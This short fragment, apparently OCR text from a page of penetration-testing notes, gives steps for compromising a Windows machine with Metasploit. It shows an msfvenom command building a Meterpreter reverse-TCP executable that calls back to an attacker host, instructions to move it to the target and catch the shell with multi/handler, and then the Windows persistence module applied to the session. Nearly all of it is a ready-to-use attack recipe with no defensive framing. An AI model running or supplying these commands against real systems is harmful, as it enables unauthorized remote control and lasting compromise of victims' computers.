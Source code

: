     msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe

Transfer the payload from your attacker machine to the target machine and `use exploit/multi/handler`,
then execute the binary this will give a meterpreter shell back in metasploit. Background it.

    use exploit/windows/local/persistence
    set session 1

